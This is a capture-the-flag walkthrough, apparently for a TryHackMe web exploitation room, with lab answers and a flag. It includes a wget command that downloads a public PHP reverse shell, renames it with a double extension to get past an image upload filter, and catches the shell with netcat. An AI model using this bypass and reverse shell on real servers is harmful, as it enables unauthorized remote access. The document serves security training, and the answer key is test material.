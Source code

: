 ```yaml
---
description: Web Exploitation
---
```


# The Elf Strikes Back!

## Web Exploitation

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

Open the site

![](../.gitbook/assets/image%20%282%29.png)

> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2811%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%287%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2810%29.png)

![](../.gitbook/assets/image%20%2814%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%289%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%284%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%288%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}



